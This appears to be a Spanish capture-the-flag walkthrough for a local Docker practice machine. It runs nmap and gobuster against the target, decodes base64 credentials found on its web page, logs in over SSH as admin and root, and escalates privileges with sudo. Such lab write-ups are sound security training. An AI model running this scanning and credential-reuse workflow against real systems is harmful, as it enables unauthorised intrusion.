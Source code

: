 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh
```

![Pasted image 20250131142942](https://github.com/user-attachments/assets/4cf0ac59-0fc6-4e6f-9fc1-8096a1eef774)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250131143033](https://github.com/user-attachments/assets/2afd00f9-739f-4064-92f3-a8ec867c53ed)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250131145014](https://github.com/user-attachments/assets/0344ef5a-8bdf-4570-85f2-0f6c370d6726)

Nos metemos en la web:

![Pasted image 20250131144417](https://github.com/user-attachments/assets/5d28e41e-e6f6-4a71-a575-e824dd535544)

```
sjd c2pkCg==
admin YWRtaW4K
root MTk3MQo=
```

Encontramos estos usuarios y contraseñas.

Desciframos la contraseña de admin:

```
echo YWRtaW4K | base64 -d
```

![Pasted image 20250131144455](https://github.com/user-attachments/assets/01985d52-9d62-487a-b6e7-5b80d7613966)

Nos conectamos con **SSH**:

```
ssh admin@172.17.0.2
```

![Pasted image 20250131144159](https://github.com/user-attachments/assets/bdfa4c19-5e3e-49d4-bc64-8f95d3f85052)

Elevamos privilegios:

```
sudo -l
```

![Pasted image 20250131144041](https://github.com/user-attachments/assets/8cbecd55-6888-4f0d-abd5-f59c680bd981)

```
sudo su
```

![Pasted image 20250131144102](https://github.com/user-attachments/assets/ebafc8c4-4067-4c26-9c92-851c62f783a6)

```
whoami
```

![Pasted image 20250131144116](https://github.com/user-attachments/assets/144668eb-cae8-4f66-8f3f-1c2b660e2225)

Otra forma:

Desciframos la contraseña de root:

```
echo MTk3MQo= | base64 -d
```

![Pasted image 20250131144523](https://github.com/user-attachments/assets/ddc56abf-9d85-4bd8-857c-7a7f55e23041)

Nos conectamos con **SSH**:

```
ssh root@172.17.0.2
```

![Pasted image 20250131144238](https://github.com/user-attachments/assets/c0c1dc8c-0c30-49cf-92b0-092327a9a9ed)

```
whoami
```

![Pasted image 20250131144251](https://github.com/user-attachments/assets/9bf41eff-7346-48ae-8da4-867104447fbf)
